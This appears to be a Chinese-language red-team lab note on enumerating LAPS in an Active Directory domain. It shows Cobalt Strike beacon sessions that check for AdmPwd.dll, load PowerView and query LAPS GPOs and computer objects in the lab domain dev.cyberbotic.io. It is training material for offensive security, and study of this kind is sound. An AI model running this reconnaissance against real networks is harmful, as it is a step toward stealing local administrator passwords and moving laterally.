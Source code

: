 # Local Administrator Password Solution

如果有LAPS，那么硬盘上会有这个文件：AdmPwd.dll 

```
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 24 bytes
[*] You are DEV\bfarmer
beacon> ls C:\Program Files\LAPS\CSE
[*] Tasked beacon to list files in C:\Program Files\LAPS\CSE
[+] host called home, sent: 43 bytes
[*] Listing: C:\Program Files\LAPS\CSE\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 145kb    fil     09/22/2016 08:02:08   AdmPwd.dll
```


查找跟LAPS有关的GPO
```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1
[+] host called home, sent: 145560 bytes
beacon> powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl
[*] Tasked beacon to run: Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl
[+] host called home, sent: 537 bytes
[+] received output:
#< CLIXML


displayname    : LAPS
name           : {5A20DA0D-2710-4FF6-A19C-AE9EE5712BE7}
gpcfilesyspath : \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5A20DA0D-2710-4FF6-A19C-AE9EE5712BE7}

```

搜索```ms-Mcs-AdmPwdExpirationTime```属性不为空的计算机对象（任何域用户都可以读取此属性）

```
beacon> powershell Get-DomainObject -SearchBase "LDAP://DC=dev,DC=cyberbotic,DC=io" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
[*] Tasked beacon to run: Get-DomainObject -SearchBase "LDAP://DC=dev,DC=cyberbotic,DC=io" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
[+] host called home, sent: 633 bytes
[+] received output:
#< CLIXML

dnshostname              
-----------              
wkstn-1.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io

```
